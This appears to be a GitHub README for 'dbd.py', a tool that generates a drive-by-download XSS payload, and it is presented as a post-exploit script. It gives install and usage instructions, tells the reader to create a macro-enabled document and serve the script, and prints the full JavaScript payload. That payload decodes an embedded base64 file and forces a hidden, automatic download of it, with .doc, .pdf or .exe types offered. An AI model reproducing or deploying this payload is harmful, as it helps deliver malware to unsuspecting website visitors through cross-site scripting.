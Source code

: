 # dbd.py (drive-by-download)

Generate a post exploit script to download an arbitrary file using HTML5's Blob object (https://developer.mozilla.org/en-US/docs/Web/API/Blob). Say goodbye to ```alert(1)```.

# install

```shell
$ git clone https://github.com/demetrius-ford/dbd.py
$ cd dbd.py/ && pip3 install -r requirements/all.txt
```

# usage

```bash
Usage: dbd.py [OPTIONS]

  Generate a drive-by-download XSS payload.

Options:
  --version
  --extension [.doc|.pdf|.exe]
  --evil-file FILE
  --help                          Show this message and exit.
```

Create a macro-enabled document, then run:

```bash
$ python3 dbd.py --extension=".doc" --evil-file="evil.doc"
```

Serve the script with tooling of your choice :smiling_imp:

```javascript
class MimeFactory {
  constructor(type) {
    const mimes = {
      '.doc': 'application/msword'
      , '.pdf': 'application/pdf'
      , '.exe': 'application/octet-stream'
    , }

    if (!(type in mimes)) {
      return;
    }

    this.type = mimes[type];
  }
}

((file, payload) => {
  const empty = ({
    length
  }) => length === 0;

  if (empty(file) || empty(payload)) return;

  const decoded = window.atob(payload);

  const mime = new MimeFactory(file);
  const size = payload.length;
  const link = document.createElement('a');

  const bin = new Uint8Array(size);
  for (let i = 0; i < size; i++) {
    bin[i] = decoded.charCodeAt(i);
  }

  const blob = new Blob([bin.buffer]
    , {
      type: mime.type
    });

  const url = window.URL.createObjectURL(blob);

  link.style = 'display:none;';
  link.href = url;
  link.download = file;

  document.body.appendChild(link);
  link.click();

  window.URL.revokeObjectURL(url);
  document.body.removeChild(link);

})('657hi94.doc', '...');
```
